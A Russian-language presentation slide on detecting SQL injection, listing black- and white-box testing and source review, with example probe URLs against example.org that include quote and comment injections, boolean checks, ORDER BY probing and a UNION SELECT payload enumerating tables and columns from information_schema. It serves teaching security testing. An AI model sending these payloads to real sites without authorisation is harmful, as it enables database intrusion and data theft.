

# Обнаружение SQL инъекций
Основные способы:
Тестирование функций (черный или белый ящик);
Анализ исходного кода;
Пример тестирования функций для http://example.org/?id=1:
http://example.org/?id=1’
http://example.org/?id=1”
http://example.org/?id=1’--
http://example.org/?id=1’/*
http://example.org/?id=1+AND+1=1--
http://example.org/?id=1+AND+1=2--
http://example.org/?id=1+ORDER+BY+qweweqweqwe
http://example.org/?id=1+union+select+concat_ws(0x3a,table_name,column_name)+from+information_s chema.columns